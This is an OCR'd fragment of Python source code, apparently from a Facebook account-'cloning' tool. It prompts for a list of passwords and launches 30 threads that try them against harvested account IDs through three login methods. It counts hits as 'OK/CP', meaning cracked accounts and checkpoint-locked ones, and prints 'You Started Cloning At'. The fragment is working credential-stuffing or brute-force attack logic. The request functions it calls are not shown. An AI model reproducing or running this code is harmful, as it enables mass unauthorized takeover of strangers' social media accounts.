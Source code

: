                         plist.append(input(f' [•] Put password {i+1}: '))

                with tred(max_workers=30) as crack_submit:

                        clear()

                        total_ids = str(len(id))

                        print(' [•] Total account : \033[1;32m'+total_ids+f' \033[1;37m>> \033[1;37mMethod >> \033[1;37mM{mthd}')
                        print(" [•] Use 4G Data For Speed Up ")
                        linex()
                        print(" >> You Started Cloning At : "+str(a)+":"+str(lt()[4])+" "+ tag+" ")

                        linex()

                        for user in id:

                                ids,names = user.split('|')

                                passlist = plist

                                if mthd in ['1','01']:

                                        crack_submit.submit(ffb,ids,names,passlist)

                                elif mthd in ['2','02']:

                                        crack_submit.submit(api,ids,names,passlist)

                                else:

                                        crack_submit.submit(api1,ids,names,passlist)

                print('\033[1;37m')

                linex()

                animation(' >> The process has completed')

                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))

                linex()

                input(' >> Press enter to back ')

                os.system('python run.py')

        except requests.exceptions.ConnectionError:

                exit(f' No internet connection')

        except (KeyError,IOError):

                print(f' No friends for {userr}')

                time.sleep(3)

                public()

def menu():

        try:

                clear()

